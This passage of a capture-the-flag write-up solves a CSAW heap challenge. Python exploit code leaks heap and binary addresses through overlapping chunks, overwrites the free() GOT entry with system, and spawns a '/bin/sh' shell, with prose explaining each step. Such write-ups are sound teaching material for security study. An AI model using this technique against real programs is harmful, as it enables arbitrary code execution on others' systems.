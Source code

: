 ```python
# get the 0x280 byte chunk
delete_a(5)

alloc_a(0x80, "G" * 0x80) #6
alloc_a(0x60, 'H' * 0x60) #7
alloc_a(0x40, 'I' * 0x40) #8

# leak heap
l = show_a(4)
heap_base = u64(l + "\x00" * 2) - 0x15f0
rename_a(4, p64(heap_base + 0x14b0))
log.info("heap_base: 0x{:x}".format(heap_base))
#gdb.attach(r)

# leak elf
l = show_a(8)
rename_a(8, l)
elf_base = u64(l + "\x00" * 2) - 0x202720
log.info("elf_base: 0x{:x}".format(elf_base))
```

Here I deleted 5th chunk so that we get our full size fake chunk again. Now we do some heap feng shui to get an overlap between our `fb1` (`name`) and an `alien`. To do this I allocated first 0x90 bytes then 0x70. So if we allocated anything now it will be overlapping `fb1`. If you remember I had arranged 4 0x20 bytes free heap chunks for `alien` structs so they dont interfere with my `name` exploitation. But as this new chunk that we will be allocating will be effectively 5th chunks (total_allocated_aliens-total_deleted_aliens == 4), It will be allocating `alien` also from our fake chunk and we will get an `alien` and `name` overlap. Hmm cool.  

After that I just leak the heap by calling rename on 4th `name` meaning `fb1`. Use that heap leak to calculate address of `samurai` and put that address in `alien` using rename in `name` `fb1`. Leak the ELF's .bss address by calling rename on `alien`.  

**GET RCE Already!**

```python
# getting got address on heap
l = show_a(4)
got_free = elf_base + 0x202018
rename_a(4, p64(got_free))

# overwriting got value
l = show_a(8)
rename_a(8, p64(libc_base + libc.symbols['system'])[:-1])
# passing parameter to system (free)
alloc_a(100, "/bin/sh")
delete_a(9)

r.interactive()
```

Now that we have ELF leak we calculate address of `free` GOT and use the same `name` & `alien` overlap to overwrite it with address of `system`. Then allocate a new `alien` with `name` as `/bin/sh`. So now when you free this `alien`s `name` you will be executing `system("/bin/sh")`.  
Enjoy your shell!  

Thanks to CSAW for creating such fun challenge :)
